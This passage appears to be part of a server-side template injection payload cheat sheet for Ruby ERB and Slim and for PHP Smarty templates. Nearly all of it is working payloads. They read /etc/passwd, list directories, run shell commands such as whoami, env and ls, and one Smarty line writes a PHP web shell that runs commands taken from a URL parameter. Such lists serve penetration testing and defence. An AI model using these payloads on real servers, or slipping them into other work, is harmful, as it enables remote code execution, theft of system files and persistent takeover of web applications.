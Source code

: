 
## Ruby

### Ruby - Basic injections

ERB:

```ruby
<%= 7 * 7 %>
```

Slim:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Code execution

Execute code using SSTI for ERB engine.

```ruby
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for Slim engine.

```powershell
#{ %x|env| }
```

---

## Smarty

[Official website](https://www.smarty.net/docs/en/)
> Smarty is a template engine for PHP.

```python
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```

---